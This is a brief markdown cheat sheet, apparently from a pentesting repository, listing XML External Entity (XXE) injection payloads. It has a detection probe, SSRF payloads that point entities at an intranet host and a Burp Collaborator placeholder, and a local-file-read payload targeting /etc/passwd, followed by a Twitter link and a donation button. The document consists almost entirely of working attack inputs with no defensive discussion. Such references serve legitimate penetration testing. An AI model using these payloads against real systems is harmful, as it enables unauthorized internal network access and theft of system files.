 # XXE - Cheat Sheet

### Detect
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY test "pentest"> ]>
<root><xxe>&test;</xxe></root>
```

### SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "<http://intranet.cheeseshop.com>"> ]>
<foo>dumdum</foo>
  
 
<!DOCTYPE foo PUBLIC "-//dummy//Bug//dummy"  "http://<BURP-COLLAB/">
<foo>testing</foo>
```

### LFI
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

<br>&nbsp;
## References:
[Reference](ref)</br>


<br>&nbsp;
## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
